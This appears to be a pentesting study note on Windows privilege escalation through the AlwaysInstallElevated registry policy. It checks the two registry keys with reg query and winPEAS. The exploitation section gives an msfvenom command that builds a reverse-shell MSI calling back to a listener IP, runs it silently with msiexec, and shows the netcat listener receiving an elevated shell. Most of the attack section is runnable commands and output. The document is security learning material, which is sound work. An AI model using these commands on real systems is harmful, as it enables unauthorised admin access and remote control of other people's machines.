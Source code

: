 
# AlwaysInstallElevated
MSI files are files used *to install applications*. They always fun with the permissions of the user who is installing them. Windows allows these applications to be run *w/ elevated/ admin privileges*. If the target system does this, then we can abuse this by generating a malicious MSI file that does what we want (like establish a revshell for instance).
## Enumeration
There are two settings in the [registry](../../../computers/windows/registry.md) which *must be enabled* for this to work. The value for **AlwaysInstallElevated** must have be set to `1` for both the local machine and the current user.
1. local machine: `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
2. current user: `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
If either is missing or disabled, *this exploit won't work*.
### Checking manually
You can check to see if these conditions are met by using the `reg query` command and giving it the two keys with the `/v AlwaysInstallElevated` flag:
```powershell
PS C:\Users\admin> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
### Checking with winPEAS
You can use the `windowscreds` module with [winPEAS](../../../cybersecurity/TTPs/actions-on-objective/tools/winPEAS.md) to check if the two values are enabled. Check under the section of the output labeled "Checking AlwaysInstallElevated"
```powershell
.\winPEASany.exe quiet windowscreds

...

  [+] Checking AlwaysInstallElevated(T1012)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!

...
```
## Exploitation
Once we know the two keys have values of 1, then we can create a malicious MSI file using `msfvenom`. Set the `-f` flag to `msi`:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.69.4 LPORT=44444 -f msi -o reverse.msi
```
### Execute using `msiexec`
Once the revshell binary is on the target machine, use `msiexec` to execute it from the terminal. Make sure to use the `/quiet` flag:
```powershell
msiexec /quiet /qn /i reverse.msi
```
Listener:
```bash
┌─[25-07-28 21:12:29]:(root@10.0.2.15)-[~/tibs]
└─# nc -lvp 44444
listening on [any] 44444 ...
10.0.69.5: inverse host lookup failed: Host name lookup failure
connect to [10.0.69.4] from (UNKNOWN) [10.0.69.5] 62167
Microsoft Windows [Version 10.0.19045.6093]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
windows-10-oscp\admin

C:\Windows\system32>
```
In this case, the revshell executed as the admin user.